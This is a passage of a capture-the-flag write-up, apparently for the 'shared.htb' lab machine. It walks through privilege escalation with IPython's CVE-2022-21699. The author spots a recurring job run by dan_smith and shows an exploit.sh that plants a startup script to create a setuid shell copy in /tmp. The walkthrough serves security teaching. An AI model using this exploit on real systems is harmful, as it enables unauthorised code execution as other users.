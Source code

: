 ```bash
# james_mason@shared.htb (SSH)
chmod +x pspy64
timeout 3m ./pspy64 | tee pspy.log
```
{:.nolineno}

Looking at the output, user ID 0 and user ID 1001 seem to be running routine commands. UID 0 is **root** and User ID 1001 turns out to be user **dan_smith**, declared in `/etc/passwd`{:.filepath}. It can be noted that dan_smith runs an interesting command every minute.

>
```bash
/bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
```
{:.nolineno}

The user enters the `/opt/scripts_review`{:.filepath} directory and executes `/usr/local/bin/ipython`{:.filepath}.

#### CVE-2022-21699

After doing some research into `ipython`, we come across a [vulnerability advisory](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x) that details a code execution flaw.

> We’d like to disclose an arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another.

Let's check if the version on the machine is vulnerable.

```bash
# james_mason@shared.htb (SSH)
/usr/local/bin/ipython --version
```
{:.nolineno}

The version is **8.0.0**, which is vulnerable. Since the routine command executed by dan_smith is run in the `/opt/scripts_review`{:.filepath} directory, we could exploit the vulnerability if `/opt/scripts_review`{:.filepath} is writable.

```bash
# james_mason@shared.htb (SSH)
ls -la /opt/scripts_review
```
{:.nolineno}

It is writable by those in the **developer** group. According to the output of the `id` command, our current user is actually part of this group.

##### Exploitation

Let's test our hypothesis by following the instructions in the advisory to execute code as dan_smith.

```bash
#!/bin/bash

exploitdir="/opt/scripts_review"
cmd="cp /bin/sh /tmp/dan_smith_sh;chmod a+xs /tmp/dan_smith_sh"

mkdir -m 777 "$exploitdir/profile_default"
mkdir -m 777 "$exploitdir/profile_default/startup"
echo "__import__('os').popen('$cmd')" > "$exploitdir/profile_default/startup/x.py"
```
{:file="exploit.sh"}
